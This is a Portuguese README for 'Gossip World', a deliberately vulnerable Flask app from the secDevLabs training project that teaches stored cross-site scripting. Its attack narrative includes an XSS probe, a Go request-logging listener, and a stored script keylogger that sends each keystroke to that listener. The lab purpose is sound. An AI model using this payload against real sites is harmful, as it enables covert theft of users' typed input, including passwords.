

# Gossip World

<p align="center">
    
    </br>
    <a href="README.md"></a>
</p>

Gossip World é um aplicativo Flask simples que contém um exemplo de vulnerabilidades de injeção múltipla (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-los neste aplicativo propositalmente vulnerável.

## Index

- [Gossip World](#gossip-world)
  - [Index](#index)
  - [O que é Cross Site Scripting?](#o-que-é-cross-site-scripting)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 💵](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
    - [Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.](#nota-esta-narrativa-de-ataque-funciona-melhor-no-mozilla-firefox)
    - [👀](#)
    - [Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.](#uma-página-ou-aplicativo-da-web-é-vulnerável-ao-xss--se-a-entrada-do-usuário-permitir-scripts)
    - [🔥](#-1)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é Cross Site Scripting?

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/gossip-world
```

```sh
make install
```

Depois é só visitar [localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Criar um novo usuário
- Tente criar sua fofoca!
- Tente deixar um comentário em uma fofoca

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. Ocorre nos campos _search_, _comment_ e _post_. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Searching for a post:


Adding a new comment to a post:


Adding a new post:


A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir obterá todas as entradas de teclado de um usuário persistindo um código malicioso no servidor.

Primeiro, a seguinte API Golang pode ser construída (main.go) que registra todas as solicitações recebidas:

```go
package main
import (
   "fmt"
   "github.com/labstack/echo"
)
func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}
func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Em seguida, o invasor pode inserir uma nova postagem pela rota **/newgossip** usando o seguinte código no campo de texto:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

Este código implementa um keylogger para capturar todas as entradas de teclado dos usuários e enviá-las para a API criada anteriormente.

   

Quando uma vítima acessa a postagem, o navegador interpreta o texto entre a tag do script como código e o executa secretamente. A imagem a seguir mostra a vítima digitando letras na página que foi "infectada" pelo JS malicioso: 


O invasor agora obtém toda a entrada no log do servidor, conforme mostrado abaixo:


## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
